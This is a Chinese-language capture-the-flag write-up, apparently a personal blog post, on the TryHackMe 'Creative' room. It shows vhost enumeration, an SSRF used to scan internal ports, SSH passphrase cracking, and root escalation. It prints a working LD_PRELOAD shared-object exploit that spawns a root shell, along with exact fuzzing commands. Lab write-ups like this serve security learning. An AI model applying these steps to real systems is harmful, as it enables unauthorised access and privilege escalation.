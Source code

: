 ```yaml
---
layout: post
title:  "TryHackMe Challenge Writeup: Creative"
date:   1 July 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
本篇是關於TryHackMe上的Challenge: [Creative](https://tryhackme.com/room/creative) 我的解題思路和歷程，紀錄自己嘗試了哪些手段以及學習了哪些新的攻擊手法和切入角度



### Step 1. Nmap

```bash
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 1a:a5:be:be:61:96:d0:bd:d8:8a:54:f9:92:e0:5b:fb (RSA)
|   256 dd:f6:c3:ce:41:03:65:d8:1d:0e:3e:bb:58:9d:c3:7e (ECDSA)
|_  256 fc:bc:54:30:8d:67:35:23:6f:fc:2d:a0:78:cc:5a:85 (ED25519)
80/tcp open  http
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://creative.thm
```

```bash
└─# nmap -p80 -sVC -O creative.thm
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-30 04:38 EDT
Nmap scan report for creative.thm (10.10.253.240)
Host is up (0.48s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X|2.6.X|3.X|5.X (97%)
OS CPE: cpe:/o:linux:linux_kernel:4.15 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 4.15 - 5.19 (91%), Linux 5.0 - 5.14 (91%), Linux 2.6.32 - 3.10 (91%), Linux 5.4 (90%)
```

- 檢查80




### Step 2. Web
- 發現幾位開發者名字可能有用，先記起來
- 用 whatweb 跑跑看:

```bash
└─# whatweb creative.thm
http://creative.thm [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@example.com,info@website.com], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.253.240], JQuery[3.4.1], Meta-Author[Devcrud], PasswordField, Script, Title[Creative Studio | Free Bootstrap 4.3.x template], YouTube, nginx[1.18.0]
```

- 發現網站作者名爲 **Devcrud**，記下來或許後面用得到
- 嘗試路徑枚舉，沒發現什麽感興趣的:

```bash
└─# gobuster dir -u creative.thm -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html
```

- 嘗試 vhost 枚舉，因爲發現其實原本的FQDN是 creative.thm 可能還有底下的虛擬主機，發現一堆結果但是有一個返回的頁面跟別的不同: `beta.creative.thm`

```bash
└─# ffuf -u http://10.10.255.41 -H "Host: FUZZ.creative.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r -c
beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 502ms]
mobile                  [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 511ms]
admin                   [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 519ms]
mail2                   [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 516ms]
old                     [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 521ms]
new                     [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 522ms]
cp                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 524ms]
support                 [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 528ms]
cpanel                  [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 529ms]
shop                    [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 529ms]
...
```




### Step 3. Web(beta.creative.thm)
- 網站提供了一個 URL tester 的功能，直覺就是可能有SSRF的漏洞存在
- 手動試了一些最基礎的SSRF都發現行不通: `beta.example.com/../../../` 和 `beta.example.com/assets`
- 試試看 seclist 中 fuzzing 相關的字典檔:
    - seclists/Fuzzing/command-injection-commix.txt
    - seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt
    - seclists/Fuzzing/LFI/LFI-Jhaddix.txt
- 發現全部都是一致的回應，那麼再測測看Server底下有沒有開其他port的web: 建立一個字典檔從1～65536，並ffuf做模糊測試: `ffuf -X POST -u http://beta.creative.thm -w ports.txt -d "url=http://127.0.0.1:FUZZ/" -H "Content-Type: application/x-www-form-urlencoded" -fw 3`
- 發現除了80之外還有一個**port 1337**
- 瀏覽器打開後發現應該是從根目錄(/)的Web Server，首先肯定關注 /home 目錄，發現除了用戶 ubuntu 還有用戶 **saad**，最後可獲得ssh私鑰，但發現需要 passphrase
- 用 ssh2john 破解 ssh passphrase: **s.......s**
- 成功獲得 user flag




### Step 4. 提權
- 首先跑linpeas看看有什麼攻擊角度

```bash
╔══════════╣ Searching passwords in history files
sudo -l                                                                           
echo "saad:MyStrongestPasswordYet$4291" > creds.txt
sudo -l
sudo -l
mysql -u root -p
mysql -u root
sudo su
ssh root@192.169.155.104
mysql -u user -p
mysql -u db_user -p
ls -ld /var/lib/mysql
```

- 發現有一個 creds.txt 文件並且它應該是藏在某個 saad 讀不到的文件夾內，但我們可以知道 saad 用戶密碼。況且我們可以知道 sudo -l 可能是攻擊角度

```bash
saad@ip-10-10-177-196:/tmp$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on ip-10-10-177-196:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on ip-10-10-177-196:
    (root) /usr/bin/ping
```

- ping 有 sudo 權限，但通過 GTFOBins 查詢卻沒辦法利用。但同時我還發現在sudo -l的結果中有一個 `env_keep+=LD_PRELOAD` 很奇怪，通過查詢確實可以利用這個設置和 (root)/usr/bin/ping 提權，以下步驟出自[這篇文章](https://www.cnblogs.com/backlion/p/10503985.html)
    - 創建一個 shell.c:
    ```C
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
    }
    ```
    - 根據這個shell.c創建一個library:shell.so: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
    - 最後執行 `sudo LD_PRELOAD=/tmp/shell.so ping` 即可獲得 root shell



### 總結
自己卡關的步驟:
- 枚舉虛擬主機
- SSRF => 枚舉開放port
- 新的提權手法: `env_keep+=LD_PRELOAD`


## 學習資料
1. [TryHackMe Challenge: Creative](https://tryhackme.com/room/creative)
2. [Writeup \| Creative](https://0xb0b.gitbook.io/writeups/tryhackme/2024/creative)
3. [使用LD_Preload的Linux权限升级技巧](https://www.cnblogs.com/backlion/p/10503985.html)

</div>
</body>
</html>
